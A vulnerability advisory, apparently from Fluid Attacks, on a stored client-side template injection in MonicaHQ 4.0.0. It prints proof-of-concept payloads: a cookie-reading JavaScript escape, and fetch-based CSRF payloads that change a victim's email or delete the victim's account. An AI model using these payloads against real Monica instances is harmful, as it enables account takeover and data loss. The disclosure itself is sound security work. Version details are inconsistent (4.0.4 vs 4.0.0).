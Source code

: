 ```yaml
---
slug: advisories/napoli/
title: MonicaHQ 4.0.4 - Client Side Template Injection
authors: Lautaro Casanova
writer: lcasanova
codename: napoli
product: MonicaHQ 4.0.0
date: 2023-04-17 12:00 COT
cveid: CVE-2023-1031,CVE-2023-1094,CVE-2023-30787,CVE-2023-30788,CVE-2023-30789,CVE-2023-30790
severity: 8.0
description: MonicaHQ 4.0.4   -    Client Side Template  (CSTI)
keywords: Fluid Attacks, Security, Vulnerabilities, Monicahq, CSTI
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                            |
| --------------------- | ---------------------------------------------------------- |
| **Name**              | MonicaHQ 4.0.4 - Client Side Template Injection            |
| **Code name**         | [napoli](https://es.wikipedia.org/wiki/Chizzo_N%C3%A1poli) |
| **Product**           | MonicaHQ                                                   |
| **Affected versions** | 4.0.0                                                      |
| **State**             | Public                                                     |
| **Release Date**      | 2023-04-17                                                 |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Client Side Template Injection                                                                         |
| **Rule**              | [010. Stored cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/010)   |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.0                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-1031](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1031), [CVE-2023-1094](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1094), [CVE-2023-30787](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30787), [CVE-2023-30788](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30788), [CVE-2023-30789](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30789), [CVE-2023-30790](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30790)                            |

## Description

MonicaHQ version 4.0.0 allows an authenticated remote attacker to execute
malicious code in the application. This is possible because the application
does not correctly validate the data entered by the user.

## Vulnerability

This vulnerability occurs because the application does not correctly validate
the data entered by users when creating new contacts within the application, as
well as the characteristics of the contacts themselves.

## Exploitation

First we create a contact:

![CSTI-Monica](https://raw.githubusercontent.com/BetaH4k/MonicaHQ/main/create-contact.png)

After creating the contact you can edit its characteristics. At this point
there are many inputs which are vulnerable. The PoC of the exploitation of one
of them will be shown but it applies to all the others. In this case we edit
the food preference feature. We inject the following payload which interprets:

```js
{{7*7}}
```

At this point we can say that it is vulnerable to CSTI since we see the value
49 reflected.

![CSTI-Monica](https://raw.githubusercontent.com/BetaH4k/MonicaHQ/main/test-csti.png)

![CSTI-Monica](https://raw.githubusercontent.com/BetaH4k/MonicaHQ/main/out-csti.png)

Thanks to this it is possible to inject JavaScript code, which is interpreted.

```js
{{{}.toString.constructor('confirm(document.cookie)')()}}
```

![CSTI-Monica](https://raw.githubusercontent.com/BetaH4k/MonicaHQ/main/out-xss.png)

![CSTI-Monica](https://raw.githubusercontent.com/BetaH4k/MonicaHQ/main/xsrf.png)

As the XSS is stored, CSRF can be applied to change another user's email
address or delete their account.

## Evidence of exploitation

### CSTI to CSRF Change mail

```js
{{  fetch('http://localhost:8080/settings/save', {
        method: 'POST',
        headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: new URLSearchParams({
        _token: document.querySelector('[name="_token"]').value,
        id: 3,
        first_name: 'test',
        last_name: 'testt',
        email: 'attacker@test.com',
        locale: 'es',
        currency_id: 4,
        temperature_scale: 'celsius',
        timezone: 'Europe/Madrid',
        reminder_time: '12:00',
        name_order: 'firstname_lastname_nickname',
        fluid_container: 1
        })
    })
    .then(res => res.text())
    .then(text => window.location.href = text)
}}
```

![RCE-FIleManager](https://raw.githubusercontent.com/BetaH4k/MonicaHQ/main/Monica-CSRF-Contact(1).gif)

### CSTI to CSRF Delete Account

```js
{{
    fetch('http://localhost:8080/settings/delete', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: '_token=' + document.querySelector('[name="_token"]').value
    })
    .then(res => res.text())
    .then(text => window.location.href = text)
}}
```

![RCE-FileManager](https://raw.githubusercontent.com/BetaH4k/MonicaHQ/main/monica-delete-account.gif)

## Our security policy

We have reserved the CVE-2023-1031, CVE-2023-1094, CVE-2023-30787, CVE-2023-30788,
CVE-2023-30789, CVE-2023-30790 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: MonicaHQ 4.0.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Lautaro Casanova](https://www.linkedin.com/in/beta-casanova/)
from Fluid Attacks' Offensive Team.

## References

**Vendor page** <https://github.com/monicahq/monica>

**Release page** <https://github.com/monicahq/monica/releases/tag/v4.0.0>

## Timeline

<time-lapse
  discovered="2023-03-30"
  contacted="2023-03-30"
  replied=""
  confirmed="2023-04-17"
  patched=""
  disclosure="2023-04-17">
</time-lapse>
